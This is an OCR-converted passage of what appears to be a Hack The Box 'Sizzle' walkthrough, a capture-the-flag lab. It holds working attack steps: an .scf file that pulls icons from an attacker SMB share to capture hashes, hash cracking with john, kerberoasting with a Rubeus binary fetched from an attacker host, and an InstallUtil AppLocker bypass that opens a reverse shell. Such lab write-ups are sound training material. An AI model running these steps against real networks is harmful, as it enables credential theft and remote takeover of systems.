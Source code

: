 \[shell\]

Command=2

IconFile=\\\\10.10.16.2\\share\\test.ico

\[Taskbar\]

Command=ToggleDesktop

after get the hash crack the hash

**\$ john amanda-hash -w=/usr/share/wordlists/rockyou.txt**

To check SPN associated

**setspn -T htb.local -F -Q \*/\***

![](vertopal_528d199b82d241d6abcc4565ee1c8434/media/image32.png){width="6.267716535433071in"
height="3.875in"}

after confirm spn found try to kerberos using rubeus like image below

PS C:\\Windows\\temp\> iwr -uri http://10.10.14.2:8000/Rubeus.exe -o
r.exe

PS C:\\Windows\\temp\> .\\r.exe kerberoast /creduser:htb.local\\amanda
/credpassword:Ashare1972

![](vertopal_528d199b82d241d6abcc4565ee1c8434/media/image8.png){width="6.267716535433071in"
height="3.486111111111111in"}

# CLM / AppLocker Break Out

enumeration :

**PS htb\\amanda@SIZZLE Documents\>
\$executioncontext.sessionstate.languagemode**

**PS htb\\amanda@SIZZLE Documents\> Get-AppLockerPolicy -Effective
-XML**

[[PSByPassCLM]{.underline}](https://github.com/padovah4ck/PSByPassCLM)
is a good one for CLM breakout. I'll build it in a Windows VM making
sure to match the .NET version with what is on target (though I could
probably also just use the exe in
PSBypassCLM/PSBypassCLM/bin/x64/Debug), and upload the exe to the
\\appdata\\local\\temp directory for amanda.

Next I'll run with the revshell option:

**C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\InstallUtil.exe
/logfile= /LogToConsole=true /U /revshell=true /rhost=10.10.14.4
/rport=443 \\users\\amanda\\appdata\\local\\temp\\a.exe**

# **msbuild bypass**
